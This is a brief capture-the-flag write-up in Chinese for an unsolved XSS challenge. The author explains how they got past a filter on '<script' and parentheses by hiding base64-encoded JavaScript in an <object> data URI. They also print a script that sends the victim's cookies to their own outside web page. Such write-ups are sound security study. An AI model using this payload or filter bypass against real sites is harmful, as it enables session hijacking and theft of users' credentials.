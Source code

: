 # xssme

## flag

```
未解出
```

## 參與解題的人

b04902053 鄭淵仁

## write-up

傳送訊息之前，server 會檢查信的內容裡面有沒有包含 `<script`、`(`、`)`，所以為了在信件的內容裡面加上 script 讓收件者自動執行，我把 script 用 base64 編碼之後再放到 `<object>` 物件的 `data` 這個 attribute 裡面，也就是像下面這樣：

```html
<object data="data:text/html;base64,[--encoded javascript here--]">
```

而裡面要放的 script 我就選用把 cookie 用 GET 送給我在系上工作站上架的自動收回 GET 並 echo 到檔案的網頁上， script 程式碼如下：

```html
<script>
window.location='https://www.csie.ntu.edu.tw/~b04902053/get/?flag='+escape(document.cookie);
alert('https://www.csie.ntu.edu.tw/~b04902053/get/?flag='+document.cookie);
</script>
```

使用這個方法確實可以讓收件端自動執行 JavaScript，但是這段 JavaScript 卻不知道為什麼沒辦法回傳 cookie。

後來我試著用 JavaScript 開 `~/flag` 再回傳，不過時間到了，之後就沒再繼續試下去了QQ。